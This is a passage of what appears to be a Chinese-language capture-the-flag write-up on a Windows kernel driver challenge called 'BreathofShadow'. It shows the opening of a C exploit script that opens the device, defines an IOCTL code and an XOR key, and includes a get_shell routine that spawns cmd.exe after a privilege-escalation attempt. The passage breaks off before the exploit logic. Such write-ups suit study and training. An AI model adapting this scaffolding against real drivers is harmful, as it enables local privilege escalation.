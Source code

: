 ```asm
jmp loop;
ret;
```

整個操作的結構圖
![image](https://hackmd.io/_uploads/Hku2Vilqyl.png)


## script
```c
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>

#define DeVioctlCode 0x9C40240B
#define DeviceName L"\\\\.\\BreathofShadow"
#define ADDR(x) ((x) ^ KEY)

void hexdump(const void* data, size_t size)
{
    const unsigned char* byteData = (const unsigned char*)data;
    size_t i, j;

    for (i = 0; i < size; i += 16) {
        printf("%08zx  ", i);

        for (j = 0; j < 16; ++j) {
            if (i + j < size) {
                printf("%02x ", byteData[i + j]);
            } else {
                printf("   ");
            }
        }

        printf(" |");
        for (j = 0; j < 16; ++j) {
            if (i + j < size) {
                unsigned char c = byteData[i + j];
                if (c >= 32 && c <= 126) {
                    printf("%c", c);
                } else {
                    printf(".");
                }
            }
        }
        printf("|\n");
    }
}

void get_shell(){
    printf("[*] shellcode...Try to EoP");
    Sleep(7);
    system("cmd.exe");
    return;
}

int main(){

    HANDLE hDevice = CreateFileW(DeviceName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[X] Failed to open device. Error: %ld\n", GetLastError());
```